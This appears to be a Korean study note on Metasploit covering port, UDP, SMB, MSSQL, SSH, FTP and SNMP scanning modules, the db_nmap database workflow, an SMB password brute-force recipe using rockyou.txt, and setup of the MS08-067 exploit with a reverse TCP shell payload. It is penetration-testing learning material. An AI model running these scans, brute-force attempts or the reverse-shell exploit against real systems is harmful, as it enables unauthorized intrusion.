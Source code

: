 Metasploit
#
`man`
```
use
back
set
```
![image](https://user-images.githubusercontent.com/61821641/147723626-a0455990-0a05-49c0-839b-98d0d2073752.png)
#
`portscan`

대상 시스템, 네트워크의 열린 포트를 스캔하는 여러 모듈이 있습니다. search portscan 명령 을 사용하여 사용 가능한 잠재적인 포트 스캐닝 모듈을 나열할 수 있습니다 .

![image](https://user-images.githubusercontent.com/61821641/151746499-42adae35-00c2-4597-9c10-c4ef6e1a62a2.png)


![image](https://user-images.githubusercontent.com/61821641/151746966-e5e15d49-07a5-4563-9be2-6df2a3223385.png)

- CONCURRENCY: 동시에 스캔할 대상의 수입니다.
- PORTS: 스캔할 포트 범위입니다. 여기서 1-1000은 기본 구성으로 Nmap을 사용하는 것과 같지 않습니다. Nmap은 가장 많이 사용되는 1000개의 포트를 스캔하고 Metasploit은 1에서 10000까지의 포트 번호를 스캔합니다.
- RHOSTS: 스캔할 대상 또는 대상 네트워크.
- THREADS: 동시에 사용될 스레드 수. 스레드가 많을수록 스캔 속도가 빨라집니다.
#
`udp service identify`

이 scanner/discovery/udp_sweep 모듈을 사용하면 UDP(사용자 데이터그램 프로토콜)를 통해 실행되는 서비스를 빠르게 식별할 수 있습니다. 아래에서 볼 수 있듯이 이 모듈은 가능한 모든 UDP 서비스에 대한 광범위한 스캔을 수행하지 않지만 DNS 또는 NetBIOS와 같은 서비스를 식별하는 빠른 방법을 제공합니다.

```
use scanner/discovery/udp_sweep
```
![image](https://user-images.githubusercontent.com/61821641/151747194-6b25e9b3-ee6a-48ab-bfc4-7f32403c9f0c.png)
#
`smb scan`
```
use scanner/smb/smb_version
```
![image](https://user-images.githubusercontent.com/61821641/151747349-541f08f1-9edd-454a-98a4-d38c961fd633.png)

특정 사용자의 비밀번호 bruteforce
```
use scanner/smb/smb_login
set smbuser <user name>
set pass_file <file name ex) rockyou.txt...>
run
```

![image](https://user-images.githubusercontent.com/61821641/151749881-3affc686-ba1a-416d-96fd-96a79c106f44.png)

#
`NetBIOS`
```
scanner/netbios/nbname
```
![image](https://user-images.githubusercontent.com/61821641/151747791-b5604eec-4348-4144-8ad1-da14e28507f0.png)
#
`DB`

```
systemctl start postgresql 
sfdb init
msfconsole
db_nmap -sV -p- <rhosts>
```
이제 nmap 스캔을하면 db_nmap에 저장됨 host 목록이랑 service 목록을 볼 수 있음
```
hosts
```
![image](https://user-images.githubusercontent.com/61821641/152445717-1f8826a0-9b6f-4f22-a4d6-c8b7fa5e5202.png)
![image](https://user-images.githubusercontent.com/61821641/152445763-6930ab76-01a8-4b88-b6f9-5cad71377120.png)
```
services
```
![image](https://user-images.githubusercontent.com/61821641/152445796-c573e60e-00a0-4ce3-9701-4c4d6a748a64.png)
![image](https://user-images.githubusercontent.com/61821641/152445856-e5ee9d06-82de-47ce-bc4b-1e026a1e47a3.png)
```
vulns
```
![image](https://user-images.githubusercontent.com/61821641/152451547-bbdbaaa0-528f-4011-9c19-996466ee38a2.png)
#
`Interface`

- msfconsole
- msfcli
- armitage

`Utility`

- msfpayload
- msfencode
- nasm_shell

`DB`

- mysql
- postgreSQL
#
`수동적 정보 수집`

`whois lookup`
```
msf6 > whois secmaniac.net
```
#
`auxiliary/scanner/ip/ipidseq`

TCP Idle 스캔

네트워크에 있는 다른 호스트의 IP 주소를 스푸핑해 은닉 상태로 대상을 스캔할 수 있다. 스캔을 수행할 때 ip 헤더의 ID필드의 증가를 고려해야 하므로 


#
`auxiliary/scanner/portscan/syn`


#
`auxiliary/scanner/smb/smb_version`

![image](https://user-images.githubusercontent.com/61821641/154093665-d1f2834b-0819-40b5-9fe7-c3a76f67ac83.png)

#
`auxiliary/scanner/mssql/mssql_ping`

잘못 설정된 mssql 서버 찾기

MS SQL을 설치하면 기본적으로 TCP 1433번 포트나 임의의 동적 TCP 포트로 응답 대기한다. MS SQL이 동적 포트로 대기한다면 간단히 UDP 포트 1434번으로 신호를 보내 MS SQL이 대기 중인 동적 TCP 포트를 확인할 수 있다. mssql_ping 모듈로 이 작업을 수행할 수 있다.

mssql_ping은 UDP의 timeout 문제로 인해 대상 서브넷까지 패킷이 상당히 느리게 이동할 수 있다. 메타스플로잇이 MS SQL 서버를 찾으면 서버가 대기 중인 TCP 포트 정보 같은 중요 정보와 세부 내용을 출력한다.

![image](https://user-images.githubusercontent.com/61821641/154096105-7ebff2c2-7706-4ffc-ace8-cf6646f03b68.png)

1: 서버의 위치

2: 인스턴스 명

3: 서버버전

4: 대기중인 tcp 포트 번호

#
`auxiliary/scanner/ssh/ssh_version`

ssh_version 모듈은 대상 서버에서 동작하는 SSH의 버전을 알아낸다.

#
`auxiliary/scanner/ftp/ftp_version`

ftp_version 모듈은 대상 서버에서 동작하는 FTP의 버전을 알아낸다.

#
`auxiliary/scanner/ftp/anonymous`

FTP 서버가 익명 접속을 허용하는지 확인

#
`auxiliary/scanner/snmp/snmp_login` 

조직에 1000개의 장치가 있는 경우 매일 하나씩 모든 장치가 제대로 작동하는지 확인하는 것은 바쁜 작업이다. 이를 용이하게 하기 위해 SNMP(Simple Network Management Protocol)가 사용된다. 

SNMP 서버로 접근해 특정 시스템에 대한 상당한 정보를 얻거나 원격 장치를 손상시킬 수 있다. 

snmp_login 모듈을 사용하면 단이 IP 주소나 IP 주소 범위에 대해 단어 목록을 시도해볼 수 있다.

#
`exploit/windows/smb/ms08_067_netapi`

```
set payload windows/shell/reverse_tcp
```
show options를 입력하면 lhost, lport 옵션이 추가된걸 확인할 수 있다.
![image](https://user-images.githubusercontent.com/61821641/154139664-f3f3be69-3ca9-4a55-a29c-e5d8e0aa6c8a.png)

```
show targets
```
